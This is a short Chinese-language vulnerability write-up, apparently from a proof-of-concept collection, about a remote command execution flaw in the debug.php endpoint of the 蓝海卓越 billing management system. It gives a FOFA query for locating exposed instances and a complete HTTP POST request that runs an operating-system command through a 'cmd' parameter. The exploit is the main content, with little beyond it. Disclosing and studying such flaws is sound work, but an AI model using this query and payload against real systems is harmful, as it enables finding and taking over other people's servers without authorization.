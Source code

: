 # 蓝海卓越 计费管理系统debug存在远程命令执行漏洞

# 一、漏洞简介
蓝海卓越 计费管理系debug存在远程命令执行漏洞，导致攻击者可以远程命令执行

# 二、影响版本
+ 蓝海卓越 计费管理系统

# 三、资产测绘
+ fofa`title=="蓝海卓越计费管理系统"`
+ 特征

![1716136162798-aa34ed6f-ea20-43f2-99a7-dba6a1e626c9.png](./img/v8vbMQIfX0kONNUn/1716136162798-aa34ed6f-ea20-43f2-99a7-dba6a1e626c9-099589.png)

# 四、漏洞复现
```plain
POST /debug.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 6
Connection: close
Cookie: PHPSESSID=6jvq6prlaoemtc00r7a876ntb4
Priority: u=1

cmd=id
```

![1716136252700-9872c760-028e-41b3-b57e-53c461873e34.png](./img/v8vbMQIfX0kONNUn/1716136252700-9872c760-028e-41b3-b57e-53c461873e34-607611.png)



> 更新: 2024-05-23 12:33:24  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/uz5gelsecrff83dp>